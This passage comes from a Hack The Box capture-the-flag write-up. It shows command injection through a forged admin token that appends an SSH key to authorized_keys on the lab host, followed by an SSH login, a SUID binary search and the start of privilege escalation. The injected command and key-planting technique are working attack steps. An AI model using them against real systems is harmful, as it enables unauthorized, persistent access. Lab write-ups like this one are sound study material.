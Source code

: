 ```bash
export KEY=$(cat secret-box.pub)
```

Next step is adding my public ssh key to the authorized keys so I could login

```bash
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDAyYmM3MmYyZDA0MjliOWJkZGEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RlckBnbWFpbC5jb20iLCJpYXQiOjE2NDgyOTYwMDJ9.tNBzeujobI1bXtimhaR_-hBcaBVVKf1Y6-G1CK9AVeM' -G --url-encoded "file=index.js; mkdir -p /home/dasith/.ssh; echo $KEY >> /home/dasith/.ssh/authorized_keys"  http://10.10.11.120/api/log
```

Let's login using SSH and the `dasith` username.

```bash
ssh -i secret-box dasith@10.10.11.120
```

After logged in successfully, I executed to following command to get the user flag. Then I copied this flag and submitted it in Hack The Box.

```bash
cat user.txt
```

## Post Exploitation

### Privilege Escalation

First of all, I tried to search for SUID binaries.
I used the find command to do that.

```bash
find / -perm -u=s -type f 2>/dev/null
```

I noticed a strange binary called `count` that is obviously not part of the Linux default binaries

```
...
/opt/count
...
```

I navigated to the "/opt" and executed this binary.

```bash
cd /opt
./count
```

The binary asks for file as input. I provided `/root/root.txt` (the file that has the root flag)

The binary worked as expected. It counts the characters in the provided file "/root/root.txt" but it didn't show or dump the flag.
Obviously, the binary loads the file in memory, does the counting and prints the summary.
So if we could find a way to read its memory to get the flag ?? Let's see

I found the source code of the binary alongside it. It is in the "count.c" in the same directory. The other interesting file that exists in this directory is "valgrind.log" (which is generated from Valgrind).
By googling valgrind, I learned that it is a tool for debugging and profiling Linux executables.
